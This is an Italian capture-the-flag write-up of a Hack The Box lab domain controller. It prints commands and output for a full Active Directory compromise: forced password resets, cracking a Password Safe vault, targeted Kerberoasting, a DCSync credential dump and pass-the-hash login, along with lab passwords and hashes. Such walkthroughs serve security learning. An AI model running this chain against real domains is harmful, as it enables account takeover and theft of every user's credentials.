






Ho scansionato con nmap

```
┌──(yus3r㉿kali)-[~/Tools]  
└─$ sudo nmap 10.129.106.162 -Pn -sV    
[sudo] password for yus3r:    
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-06 18:57 +0200  
Stats: 0:01:05 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan  
SYN Stealth Scan Timing: About 99.99% done; ETC: 18:59 (0:00:00 remaining)  
Nmap scan report for 10.129.102.98  
Host is up (0.14s latency).  
Not shown: 987 closed tcp ports (reset)  
PORT     STATE SERVICE       VERSION  
21/tcp   open  ftp           Microsoft ftpd  
53/tcp   open  domain        Simple DNS Plus  
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-07 04:24:17Z)  
135/tcp  open  msrpc         Microsoft Windows RPC  
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site:  
Default-First-Site-Name)  
445/tcp  open  microsoft-ds?  
464/tcp  open  kpasswd5?  
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0  
636/tcp  open  tcpwrapped  
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site:  
Default-First-Site-Name)  
3269/tcp open  tcpwrapped  
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 15986.93 seconds
```

Era evidente che il target fosse un Domain Controlller, dominio administrator.htb. Ho raccolto tutti i dati del dominio con il collector di BloodHound

```
┌──(yus3r㉿kali)-[~/HTB machines/Medium/Windows/Administrator]  
└─$ bloodhound-python -d administrator.htb -c all -u Olivia -p ichliebedich -ns 10.129.106.162 -k --zip  
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)  
INFO: Found AD domain: administrator.htb  
INFO: Getting TGT for user  
INFO: Connecting to LDAP server: dc.administrator.htb  
INFO: Found 1 domains  
INFO: Found 1 domains in the forest  
INFO: Found 1 computers  
INFO: Connecting to LDAP server: dc.administrator.htb  
INFO: Found 11 users  
INFO: Found 53 groups  
INFO: Found 2 gpos  
INFO: Found 1 ous  
INFO: Found 19 containers  
INFO: Found 0 trusts  
INFO: Starting computer enumeration with 10 workers  
INFO: Querying computer: dc.administrator.htb  
INFO: Done in 00M 31S  
INFO: Compressing output into 20261007064124_bloodhound.zip
```

Ho iniziato enumerando l'utente fornito, olivia, che aveva il privilegio GenericAll sull'utente michael, permettendomi di modificarne la password



Ho modificato la password di michael

```
┌──(yus3r㉿kali)-[~/Tools/BloodHound.py]  
└─$ net rpc password "michael" "pass123!" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "DC.adminis  
trator.htb"
```

Ho verificato che le nuove credenziali permettessero l'accesso.

```
┌──(yus3r㉿kali)-[~/Tools/BloodHound.py]  
└─$ nxc smb 10.129.106.162 -d administrator.htb -u michael -p pass123!  
SMB         10.129.106.162   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (  
domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.106.162   445    DC               [+] administrator.htb\michael:pass123!
```

L'utente michael aveva il privilegio ForceChangePassword su benjamin. 



Allo stesso modo quindi, ho proceduto modificando la password di benjamin.

```
┌──(yus3r㉿kali)-[~/Tools/BloodHound.py]  
└─$ net rpc password "benjamin" "pass123!" -U "administrator.htb"/"michael"%"pass123!" -S "DC.administr  
ator.htb"  
  
┌──(yus3r㉿kali)-[~/Tools/BloodHound.py]  
└─$ nxc smb 10.129.106.162 -d administrator.htb -u benjamin -p pass123!  
SMB         10.129.106.162   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (  
domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)  
SMB         10.129.106.162   445    DC               [+] administrator.htb\benjamin:pass123!
```

Con le nuove credenziali dell'utente benjamin, sono riuscito ad accedere al servizio FTP, nel quale ho trovato un file psafe3.

```
$ ftp benjamin@10.129.106.162    

...SNIP...
  
ftp> get Backup.psafe3  

...SNIP...  
```

// brevissima descrizione di cosa è psafe

Per leggere il file psafe, era necessaria una password. Ho quindi utilizzato lo script pwsafe2john, il quale genera un blob di dati in formato hash contenente l'hash della password ed altri metadati estratti dal file

```
$ pwsafe2john Backup.psafe3  
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050  
```

Ho salvato l'hash generato in file

```
$ echo 'Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050' > db.hash
```

Ho passato il file a John the Ripper ed ottenuto la password

```
$ john db.hash --wordlist=/home/yus3r/Tools/SecLists/Passwords/rockyou.txt  

...SNIP...
  
tekieromucho     (Backu)        

...SNIP...
```

Ho aperto il file con pwsafe, inserito la password appena ottenuta ed ho ottenuto l'accesso



Tra questi 3 utenti, l'utente emily faceva parte del gruppo Remote Management Users, il che gli permette di accedere al Domain Controller via WinRM



Ho quindi utilizzato le credenziali emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb per accedere al Domain Controller via WinRM

```
┌──(yus3r㉿kali)-[~/Tools]  
└─$ evil-winrm -i 10.129.106.162 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```

Una volta dentro, ho ottenuto la user flag

```
*Evil-WinRM* PS C:\Users\emily> type Desktop\user.txt  
b31affc32582dd5ebce36e464800d8c3
```

Continuando l'enumerazione per trovare possibili vettori di Privilege Escalation, ho notato che l'utente emily aveva il privilegio GenericWrite sull'utente ethan



Ho quindi eseguito un Kerberoasting su ethan ed ottenuto il TGS

```
$ python3 ./targetedKerberoast.py -v --dc-ip 10.129.106.162 -d 'administrator.htb' -u 'emily' -p 'UXLCI5iE  
TUsIBoFVTj8yQFKoHjXmb'  
[*] Starting kerberoast attacks  
[*] Fetching usernames from Active Directory with LDAP  
[VERBOSE] SPN added successfully for (ethan)  
[+] Printing hash for (ethan)  
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$771a406aeb46f53723fa036a68c9bfdb$2965df49351dda41b23...SNIP...
```

Dal TGS ottenuto ho recuperato la password di ethan

```
$ john ethantgt.hash --wordlist=/home/yus3r/Tools/SecLists/Passwords/rockyou.txt  

...SNIP...
 
limpbizkit       (?)        

...SNIP...
```

Infine, ho visto che ethan poteva eseguire un attacco DCSync verso il dominio, permettendomi di ottenere il contenuto del file NTDS.dit, e quindi le credenziali di tutti gli utenti del dominio



Ho utilizzato secretsdump.py di Impacket per eseguire DCSync

```
$ impacket-secretsdump 'administrator.htb'/'ethan':'limpbizkit'@10.129.106.162  

...SNIP...
 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::  

...SNIP...
```

Ottenuta la password, ho acceduto al Domain Controller via WinRM e recuperato la root flag

```
$ evil-winrm -i 10.129.106.162 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

```
*Evil-WinRM* PS C:\Users\Administrator> type Desktop\root.txt  
417c245ab9fbdd56e38a2a6d1acd5d77
```

